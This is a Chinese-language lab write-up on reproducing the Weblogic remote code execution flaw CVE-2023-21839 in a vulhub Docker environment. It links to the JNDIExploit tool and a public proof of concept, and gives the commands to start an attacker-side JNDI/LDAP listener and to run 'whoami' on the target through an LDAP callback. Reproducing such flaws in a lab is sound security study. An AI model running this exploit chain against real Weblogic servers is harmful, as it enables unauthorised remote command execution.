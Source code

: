 # 2x10 漏洞复现——Weblogic 远程代码执行漏洞(CVE-2023-21839) 

## 一、环境搭建

1. 使用vulhub搭建
2. windows系统下使用docker desktop配置docker环境
3. 进入vulhub目录下的weblogic/CVE-2023-21839目录，docker启动环境
	```shell
	docker-compose up -d
	```
	![1.png](./img/weblogic/CVE-2023-21839/1.png)
4. 随后访问http://IP:7001/console，进入如下界面
	![2.png](./img/weblogic/CVE-2023-21839/2.png)
# 二、漏洞复现
1. 先下载[JNDIExploit利用工具](https://github.com/WhiteHSBG/JNDIExploit/releases/download/v1.4/JNDIExploit.v1.4.zip)，在本地开启JDNI监听
	```java
	java -jar JNDIExploit-1.4-SNAPSHOT.jar -i IP
	```
2. 下载[POC](https://github.com/4ra1n/CVE-2023-21839)，到poc的cmd目录下执行编译命令将POC编译为二进制可执行文件
	```go
	cd cmd
	go build -o CVE-2023-21839.exe
	```
3. 使用POC执行命令whoami
	```shell
	CVE-2023-21839.exe -ip IP -port 7001 -ldap ldap://IP:1389/Basic/Command/&whoami&
	```
4. 如下，成功回显用户名
	![3.png](./img/weblogic/CVE-2023-21839/3.png)


